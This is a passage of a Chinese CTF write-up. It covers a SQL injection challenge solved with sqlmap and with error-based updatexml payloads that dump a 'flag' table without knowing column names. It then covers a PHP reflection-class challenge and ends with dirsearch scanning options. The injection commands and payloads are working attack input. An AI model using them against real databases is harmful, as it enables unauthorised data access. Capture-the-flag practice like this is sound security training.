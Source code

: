 ![image-20210515140322605](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202312102143916.png)



4. 用户信息也不是管理员

```
sqlmap -u http://124.71.238.95:25075/ --data="uname=&passwd=&Submit=%E7%99%BB%E5%BD%95"  --is-dba
```

![image-20210515142804930](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202312102143917.png)



5.无列名报错注入

```
1') and updatexml(1,concat(0x7e,(select*from (select * from flag as a join flag as b using(id,no))as c),0x7e),1)#&Submit=%E7%99%BB%E5%BD%95
```

报错出字段，继续

```
uname=admin&passwd=1')||updatexml(1,((select `cb9704e8-dfcb-4feb-90c7-d84c92ef0062` from flag limit 0,1)),1)%23#&Submit=%E7%99%BB%E5%BD%95
```







## easy_source
[原题](https://r0yanx.com/2020/10/28/fslh-writeup/)

1. 这题考察了php原生类的使用，参考ctfshow的web100使用反射类new ReflectionClass("类名")，获得这个类的信息
3. 原题，ReflectionMethod 构造 User 类中的函数方法，再通过 getDocComment 获取函数的注释
4. 考虑利用原生类ReflectionMethod读取用户类中的方法



**dirsearch使用**

[教程1](https://www.cnblogs.com/qingchengzi/articles/12652232.html)

```
-u  指定需要扫描URL
-e   指定需要扫描的文件名    例如：-e php  如果不知道即所有 -e *
-w  指定自定义的字典文件路径
排除多个响应状态码：-x 403,302,301
-r 递归扫描     非常耗时
//在扫描时要退出扫描，请从键盘解析“e”。要从停止点继续执行，请解析“c"。解析“ n”以移至下一个目录。这些步骤将使您可以控制结果，因为递归扫描是一个耗时的过程。
-R 递归深度级别
```

### 敏感文件
[**参考，secskill](https://ninjia.gitbook.io/secskill/web/info)，[语雀+漏洞案例](https://www.yuque.com/lakemoon/dctose/tpg530)、[个人博客初级+python批量扫描](https://www.imbajin.com/web%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7%E4%B9%8B%E6%95%8F%E6%84%9F%E6%96%87%E4%BB%B6%E6%8E%A2%E6%B5%8B(%E4%B8%80)/)
